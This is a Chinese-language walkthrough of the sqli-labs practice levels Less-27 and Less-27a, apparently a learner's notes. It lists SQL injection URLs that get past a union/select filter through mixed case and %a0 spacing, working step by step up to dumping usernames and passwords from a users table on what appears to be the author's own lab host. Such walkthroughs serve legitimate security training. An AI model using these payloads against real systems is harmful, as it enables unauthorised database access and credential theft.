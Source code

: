 使用大小写来绕过

暴位置

```
http://daishen.ltd:1112/Less-27/?id=0' uniOn selEct 1,2,3 && '1'='1

http://daishen.ltd:1112/Less-27/?id=0'%a0uniOn%a0sElect%a01,2,3%a0%26%26%a0'1'='1
```

暴库

```
http://daishen.ltd:1112/Less-27/?id=0' uniOn selEct 1,database(),3 && '1'='1

http://daishen.ltd:1112/Less-27/?id=0'%a0uniOn%a0selEct%a01,database(),3%a0%26%26%a0'1'='1
```

爆表

```
http://daishen.ltd:1112/Less-27/?id=0' uniOn selEct 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() && '1'='1

http://daishen.ltd:1112/Less-27/?id=0'%a0uniOn%a0selEct%a01,group_concat(table_name),3%a0from%a0information_schema.tables%a0where%a0table_schema=database()%a0%26%26%a0'1'='1
```

暴字段

```
http://daishen.ltd:1112/Less-27/?id=0' uniOn selEct 1,group_concat(column_name),3 from information_schema.columns where table_name='users' && '1'='1

http://daishen.ltd:1112/Less-27/?id=0'%a0uniOn%a0selEct%a01,group_concat(column_name),3%a0from%a0information_schema.columns%a0where%a0table_name='users'%a0%26%26%a0'1'='1
```

暴值

```
http://daishen.ltd:1112/Less-27/?id=0' uniOn selEct 1,group_concat(username,0x3a,password),3 from users where '1'='1

http://daishen.ltd:1112/Less-27/?id=0'%a0uniOn%a0selEct%a01,group_concat(username,0x3a,password),3%a0from%a0users%a0where%a0'1'='1
```

# Less 27a 

**GET - Blind Based- All your UNION & SELECT belong to us**（过滤了union和select 盲注版本** **）**

暴位置

```
http://daishen.ltd:1112/Less-27a/?id=0" uniOn sElect 1,2,3 && "1"="1

http://daishen.ltd:1112/Less-27a/?id=0"%a0uniOn%a0sElect%a01,2,3%a0%26%26%a0"1"="1
```
